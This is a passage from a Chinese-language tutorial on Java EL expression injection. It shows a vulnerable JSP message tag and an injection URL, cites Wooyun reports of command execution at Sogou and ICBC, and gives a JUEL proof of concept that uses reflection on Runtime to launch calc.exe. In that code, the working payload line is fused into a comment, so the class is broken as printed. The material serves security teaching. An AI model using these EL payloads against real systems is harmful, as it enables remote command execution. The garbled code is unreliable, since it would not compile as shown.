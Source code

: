 正常情况下为：

JAVA

```
<%@ taglib uri="http://www.springframework.org/tags" prefix="spring"%>
<spring:message  text="${param.a}"></spring:message>
```

这里使用 message 标签，text 属性用 el表达式从请求参数中取值，这样当访问

```
http://localhost/test.jsp?a=${applicationScope}
```

`${applicationScope}` 这段字符串会被当做 el表达式被执行，而不是作为字符串直接显示在页面上，我们改变提交的 el表达式，就可以获取我们需要的信息了，这就达到了 el表达式注入的效果。

### Wooyun案例

参考Wooyun镜像上的案例：

[搜狗某系统存在远程EL表达式注入漏洞(命令执行)](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0195845)

[工商银行某系统存在远程EL表达式注入漏洞(命令执行)](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0196160)

### JUEL示例

下面我们直接看下在 Java 代码中 EL表达式注入的场景是怎么样的。

EL 曾经是 `JSTL` 的一部分。然后，EL 进入了 JSP 2.0 标准。现在，尽管是 JSP 2.1 的一部分，但 EL API 已被分离到包 `javax.el` 中， 并且已删除了对核心 JSP 类的所有依赖关系。换句话说：EL 已准备好在非 JSP 应用程序中使用！

也就是说，现在 EL 表达式所依赖的包 `javax.el` 等都在 `JUEL` 相关的 jar 包中。

JUEL（Java Unified Expression Language）是统一表达语言轻量而高效级的实现，具有高性能，插件式缓存，小体积，支持方法调用和多参数调用，可插拔多种特性。

更多参考官网：http://juel.sourceforge.net/

需要的 jar 包：juel-api-2.2.7、juel-spi-2.2.7、juel-impl-2.2.7。

我们来写一个简单利用反射调用 Runtime 类方法实现命令执行的代码

**juelExec.java**

JAVA

```
package drunkbaby.basicelvul;  
  
import de.odysseus.el.ExpressionFactoryImpl;  
import de.odysseus.el.util.SimpleContext;  
  
import javax.el.ExpressionFactory;  
import javax.el.ValueExpression;  
  
public class juelExec {  
    public static void main(String[] args) {  
        ExpressionFactory expressionFactory = new ExpressionFactoryImpl();  
        SimpleContext simpleContext = new SimpleContext();  
        // failed  
 // String exp = "${''.getClass().forName('java.lang.Runtime').getRuntime().exec('calc')}"; // ok String exp = "${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'calc.exe')}";  
        ValueExpression valueExpression = expressionFactory.createValueExpression(simpleContext, exp, String.class);  
        System.out.println(valueExpression.getValue(simpleContext));  
    }  
}
```
